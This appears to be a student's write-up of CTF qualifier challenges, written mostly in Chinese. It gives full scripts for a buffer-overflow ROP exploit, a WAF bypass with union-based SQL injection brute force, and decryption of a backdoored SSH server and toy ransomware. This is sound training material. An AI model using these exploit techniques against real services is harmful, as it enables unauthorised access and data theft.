# 2022 AIS3 EOF CTF Quals Writeup

計安的期末考，這次比上次參加 Balsn CTF 解出更多題了，感覺自己守備範圍有變廣了一點。

最後我們隊的名次是 22/83，我自己是解了 5 題拿了 1057 分，有滿大一部分都靠 Reverse 拿分XDD


## Solved

### [Pwn] hello-world

在 fini 的 function 內首先會讀一個 byte 如果讀到的是 `0xFF` 就會讀 0x200 個 bytes



這邊就有 buffer overflow 可以利用，我的解法是直接蓋 ROP chain，然後就可以拿掉 flag 了

```python
from pwn import *

context.terminal = ['tmux', 'split', '-h']
context.arch = 'amd64'

p = remote("edu-ctf.zoolab.org", 30212)

p.sendafter("Hello, world !", b"\xFF")

flag_buf = 0x404500
puts_addr = 0x401080
flush_addr = 0x4010A0
read_addr = 0x401090

pop_rdi_ret = 0x4013a3
pop_rsi_pop_r15_ret = 0x4013a1

ROP = flat(
    pop_rdi_ret, 3,
    pop_rsi_pop_r15_ret, flag_buf, 0xdeadbeef,
    read_addr,

    pop_rdi_ret, flag_buf,
    puts_addr,
    
    pop_rdi_ret, 0,
    flush_addr
)

p.send(b"A"*0x78 + ROP)

p.interactive()
```

> FLAG{just warmup :)}

### [Web] Happy Metaverse Year

首先會碰到的問題就是怎麼 bypass WAF，這邊用到的方式是傳入一個 username 的 array，就可以 bypass `username.includes("'")` 這個檢查。

之後用 union-based sql injection，搭配 `hex` 指令爆破每個 byte，即可拿到 flag

```python
import requests
import string

ip = '140.112.16.145'
host = "https://sao.h4ck3r.quest/login"

FLAG = ""

for i in range(1, 500, 1):
    print("idx: ", i)
    for c in range(0, 16):
        a = requests.post(host, data={
            'username[]': f"' union select 1,SUBSTRING(hex(password), {i}, 1),'{ip}' from users where username = 'kirito' --",
            'password': hex(c)[2:].upper()
        })
        if "welcome" in a.text:
            FLAG += hex(c)[2:].upper()
            print(FLAG)
            break

print(bytes.fromhex(FLAG).decode())
```

> FLAG{星🔵Starburst⚔️ꜱᴜᴛᴏʀɪᴍᴜ⚫爆}

### [Reverse] wannaSleep


把 `wannasleeeeeeep.txt.enc` 當作參數丟到 `wannaSleep.exe` 得到 `wannasleeeeeeep.txt.enc.enc` 把檔案打開即可拿掉 flag

```
Dune (titled onscreen as Dune: Part One) is a 2021 American epic science fiction film directed by Denis Villeneuve and written by Villeneuve, Jon Spaihts, and Eric Roth. It is the first of a planned two-part adaptation of the 1965 novel by Frank Herbert, primarily covering the first half of the book. Set in the far future, it follows Paul Atreides as his family, the noble House Atreides, is thrust into a war for the deadly and inhospitable desert planet Arrakis. The ensemble cast includes Timothée Chalamet, Rebecca Ferguson, Oscar Isaac, Josh Brolin, Stellan Skarsgård, Dave Bautista, Stephen McKinley Henderson, Zendaya, David Dastmalchian, Chang Chen, Sharon Duncan-Brewster, Charlotte Rampling, Jason Momoa, and Javier Bardem.

The film is the third adaptation of Dune following David Lynch's 1984 film, which was a critical and commercial failure, and John Harrison's 2000 miniseries. After an unsuccessful attempt by Paramount Pictures to produce a new adaptation,[5] Legendary Entertainment acquired the Dune film and TV rights in 2016, with Villeneuve signing on as director in February 2017. Production contracts were only secured for the first film, relying on its success before a second film would be greenlit after the first film's release. Filming took place from March to July 2019 at locations including Budapest, Jordan, Norway, and Abu Dhabi.

Dune was originally scheduled for a late 2020 release, but it was delayed by the COVID-19 pandemic.[6] The film premiered the following year at the 78th Venice International Film Festival on September 3, 2021, ahead of its international release on September 15, 2021. It was then released in United States theaters and streaming on HBO Max on October 21, 2021. It received critical acclaim for its direction, visuals, scope, ambition, costume design, Hans Zimmer’s score, and faithfulness to the source material while being accessible to general audiences, and has grossed $400 million worldwide on a production budget of $165 million. It was selected by the National Board of Review as one of the 10 best films of 2021, as well as the American Film Institute in their annual top 10. By the way, the flag is FLAG{S0M3_PE0P13_WaNNaCry_3uT_1_JUsT_waNNaSl33p_aNd_waTCh_A_gr3aT_M0v13}. Less than a week after its domestic release, Dune: Part Two was confirmed with a planned release in October 2023.
```

後來在解 wannaSleep-revenge 時回來逆他的 function，會發現會有一個 function 在做 XOR，剛好 XOR 同樣的東西會還原回來，所以這題才會不用做什麼事就可以拿掉 FLAG 了。



> FLAG{S0M3_PE0P13_WaNNaCry_3uT_1_JUsT_waNNaSl33p_aNd_waTCh_A_gr3aT_M0v13}


### [Reverse] beardrop

題目給了一個 dropbear 的 binary，可以用 dbclient 做連線，這邊一開始的想法就是想去找程式裡面做 authenticate 的 code 來看看，感覺會有藏一些 code。

透過執行 `./dropbear -V` 可以知道是 Dropbear v2019.78，所以我就去翻了 source code：https://github.com/mkj/dropbear/tree/DROPBEAR_2019.78 ，然後對照 IDA 做 reverse，透過找一些字串的 symbol 可以找到一個滿可疑的函數在 `0x16AA0` 這個函數中：





然後就會找到跟密碼驗證的相關函數 `svr_auth_password`



這邊可以看到想要成功進到 auth succeeded 的情況，需要密碼跟前面的 v5 比對相同，而且可以看到 v5 是從 v2 加密過來的，在生成 v2 時有非常可疑的 XOR 程式。



接著我就把 `byte_1C548` 打開，可以拿掉看似加密的東西



然後寫一個腳本，去把每個 byte XOR `0xAE`，就可以拿掉 FLAG 了。

```python
enc = [0xE8, 0xE2, 0xEF, 0xE9, 0xD5, 0xEC, 0xCF, 0xED, 0xC5, 0xEA, 0x9E, 0xC1, 0xC1, 0xC1, 0xC1, 0xC1, 0xC1, 0x9E, 0x9E, 0x9E, 0xC1, 0xC1, 0x9E, 0xC1, 0x9E, 0xC1, 0x9E, 0xC1, 0x9E, 0xC1, 0xFC, 0xD3]

flag =""
for e in enc:
    flag += chr(e ^ 0xAE)
print(flag)
```

> FLAG{BaCkD0oooooo000oo0o0o0o0oR}


### [Reverse] wannaSleep_revenge



去逆跟 wannaSleep 相近的位置的 code，會發現 encryption 現在不用單純的 XOR 了，用了一堆很複雜的東西，這邊逆就看不太出來他在幹嘛。

逆很久後，發現後面的程式會把 plaintext 的前 4 個 bytes 放在 encryption 後的資料的後面。然後發現這個加密模式好像會有 chain 的效果，所以就爆破每個後面的 byte 對比題目給的 `wannasleeeeeeep.txt.enc` 即可拿到 FLAG。

```python
import string
import os

with open("wannasleeeeeeep.txt.enc", "rb") as f:
    ans = f.read()

with open("in", "r") as f:
    plaintext = f.read()

def check_correct(out):
    for i in range(len(out)-4):
        if out[i] != ans[i]:
            return False
    return True

while True:
    print(len(plaintext))
    for c in string.printable:
        try_plaintext = plaintext + c
        with open("in_tmp", "w") as f:
            f.write(try_plaintext)

        os.system("wannaSleep_revenge.exe in_tmp")

        with open("in_tmp.enc", "rb") as f:
            out2 = f.read()

        os.system("del in_tmp.enc")

        if check_correct(out2):
            print("hit!", c)
            plaintext = try_plaintext
            break
        else:
            print(len(try_plaintext), c, "not correct")
    
    with open("in", "w") as f:
        f.write(try_plaintext)
```

```
Tenet is a 2020 science fiction action thriller film written and directed by Christopher Nolan, who produced it with Emma Thomas. A co-production between the United Kingdom and the United States, it stars John David Washington, Robert Pattinson, Elizabeth Debicki, Dimple Kapadia, Michael Caine, and Kenneth Branagh. The film follows a secret agent who learns to manipulate the flow of time to prevent an attack from the future that threatens to annihilate the present world.

Nolan took more than five years to write the screenplay after deliberating about Tenet's central ideas for over a decade. Pre-production began in late 2018, casting took place in March 2019, and principal photography lasted six months, from May to November, in Denmark, Estonia, India, Italy, Norway, the United Kingdom, and the United States. Cinematographer Hoyte van Hoytema shot on 65 mm film and IMAX. Over one hundred vessels and thousands of extras were used.

Delayed three times because of the COVID-19 pandemic, Tenet was released in the United Kingdom on August 26, 2020, and United States on September 3, 2020, in IMAX, 35 mm, and 70 mm. It was the first Hollywood tent-pole to open in theaters after the pandemic shutdown, and grossed $363 million worldwide, making it the fifth-highest-grossing film of 2020. By the way, the flag is FLAG{Oh____x0r_RaNs0mwAr3?_Th1s_mAn_mUst_Rea11y_wAnnAsl33p_QQ}. The film received generally positive reviews from critics, and won Best Visual Effects at the 93rd Academy Awards where it was also nominated for Best Production Design.
```

> FLAG{Oh____x0r_RaNs0mwAr3?_Th1s_mAn_mUst_Rea11y_wAnnAsl33p_QQ}

## Unsolved

### [Pwn] fullchain-buff

這題是作業的加強版，一樣是利用 printf fmt bug 來做利用。

一開始會遇到的問題是 `cnt` 這個變數現在是 register，因此不像作業可以直接操作 fmt bug 改 stack 來增加 `cnt` 的數值。

我們只有想到透過修改程式執行的流程來不斷讓 cnt 回到 3，也就是把 function 的 return address 改到 `0x401309` 來讓 cnt 的值永遠是 3。



但是這樣一開始需要操作的次數就會大於 3 次，而且後來每次 call function 也要再蓋一次 return address 才能讓 cnt 的值重設為 3，然後就這樣卡住了。

後來發現我們沒想到的地方是 `cnt` 會在進 function call 時被 push 到 stack，在離開 function 時 pop，因此還是可以直接動 stack 的資料來讓 cnt 變的很大。

另一個方法是利用 rbp -> old rbp，修改 old rbp 把它指到 return address 再去修改它，有1/16機率寫入正確的 return address。

問題是兩邊要寫入的值並不相同， old rbp 要寫入 return address 而 return address 要寫入 `0x401309`。

結束後發現可以寫兩段 `%c` 分階段處理印出字元的數量，第一次印出 return address 最後一個 byte，第二次印出 (0x1309 - return address 最後一個 byte) 寫入 return address。


### [Reverse] dnbd

dnbd.exe 是一個 socket server

binary 被搞的爛爛的，ida 看不出什麼東西

wireshark:



send byte 40 給 server 會回送一串 random 的字串


```python
import socket
HOST = '127.0.0.1'
PORT = 5566
with socket.socket(socket.AF_INET,socket.SOCK_STREAM) as s:
    s.connect((HOST,PORT))
    s.send(b"\x40")
    data = s.recv(32)
    print(data)
    s.close()
```

之後會打開一個檔名隨機的檔案，目前卡在 x64dbg 因為 binary 整個亂掉，斷點不知道要怎麼設，先換別題




### [Pwn] myfs-1

看了一下 code，感覺是 heap 題，程式滿複雜的先跳過


### [Misc] LeetCall

chal1 卡在輸入資料會有多比用 `\n` 分隔開來的，因此不能直接用 `input()` 拿 input，後來是用 `open(0).read()` 來直接拿到整個 input，之後 split 換行，然後 format 成題目要的格式再 join string 最後 print。

```python
print(
    "\n".join(
        list(
            map("Hello, %s!".__mod__, open(0).read().split())
        )
    )
)
```

```python
print(getattr("\n", "join")(list(map(getattr("Hello, %s!", "__mod__"),getattr(getattr(open(0), "read")(),"split")()))))
```

chal2 print fibonacci sequence，去翻 leetcode 的 one-line solution 翻到近似算法的公式 [Fibonacci equation](https://leetcode.com/problems/fibonacci-number/discuss/1277529/Fibonacci-equation)，然後就把這個公式用一行做完

```python
print(
    "\n".join(
        list(
            map(str,
            map(round,
            map((2.23606797749979**(-1)).__mul__,
            map((1.618033988749895).__pow__,
            map(int, open(0).read().split()
            )))))
        )
    )
)
```

```python
print(getattr("\n","join")(list(map(str,map(round,map(getattr(getattr(2.23606797749979,"__pow__")(getattr(1,"__neg__")()),"__mul__"),map(getattr(1.618033988749895,"__pow__"),map(int, getattr(getattr(open(0), "read")(),"split")()))))))))
```

chal3 FizzBuzz

以為可以用 short-circuit evaluation 來解這題，像是 `True and "A" or "B"` 會輸出 `"A"`，`False and "A" or "B"` 會輸出 `"B"`，但想了很久沒有想出什麼東西。

後來看助教的 exploit 才發現可以透過 `zip([3 的清況], [5 的情況], [空格], [i])` 然後把全部 join 起來後 split 空格取第 0 個 element 就可以解出來了。

這題沒想到真的滿可惜的

### [Web] PM

看起來是要用 Gopher x PHP-FPM，提示也有標明 **F**or **P**HP **M**alware。

去 diff 原本的 webshell code 跟題目的 code，可以發現多了 downshell 這個指令，感覺應該是要從這邊下手，但開始寫的時間有點晚了，時間不太夠沒試出什麼結果

